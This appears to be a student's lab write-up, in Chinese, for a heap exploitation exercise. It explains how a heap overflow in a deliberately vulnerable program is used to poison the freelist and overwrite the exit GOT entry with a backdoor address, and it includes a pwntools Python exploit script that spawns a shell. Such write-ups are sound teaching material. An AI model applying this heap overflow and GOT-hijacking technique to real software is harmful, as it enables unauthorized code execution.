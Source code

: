 ![alt text](img/3220103784-林子昕-lab3/image-9.png)

## 堆上利用

### Task1 overflow

> 利用 overflow/overflow.c 中的堆溢出漏洞，通过劫持 freelist 的方式（10 points），写 exit GOT 表数据将执行流劫持到 backdoor 函数，从而完成弹 shell，执行 flag.exe 取得 flag（5 points）
>   - 远程环境位于 IP: 8.154.20.109, PORT: 10401

攻击思路：

1. 创建 3 个用户结构，构造相邻堆块
2. 释放两个块(1 和 3)进入 freelist
3. 利用edit的堆溢出覆盖中间块 metadata
4. 修改 freelist 指向 exit 的 GOT 表位置
5. 再次分配时将获得指向 GOT 的块
6. 写入 backdoor 函数地址
7. 触发 exit 调用获取 shell

代码实现：

```python
idx1 = AddUser(b"user1", b"1111", b"", b"AAAA", b"aaaa")
idx2 = AddUser(b"user2", b"2222", b"", b"BBBB", b"bbbb") 
idx3 = AddUser(b"user3", b"3333", b"", b"CCCC", b"cccc") 

DeleteUser(idx1, b"1111")
DeleteUser(idx3, b"3333")

payload = b"\x00"*72 +b"\x71"+b"\x00"*7 + p64(elf.got["exit"])

# 修改 user2 的 intro 字段，并将溢出的 payload 数据写入其中。
# 将 exit 的 GOT 表项覆盖成指向 backdoor 函数的地址。
EditUser(idx2, b"2222", b"Anyaa", payload, b"b")

use = AddUser(b"", b"", b"", b"", b"") 
use = AddUser(p64(elf.sym["backdoor"]) , b"", b"", b"", b"") 

p.recvuntil(b"[ 5 ] leave\n> ")
p.sendline(b"9")

p.interactive()
```
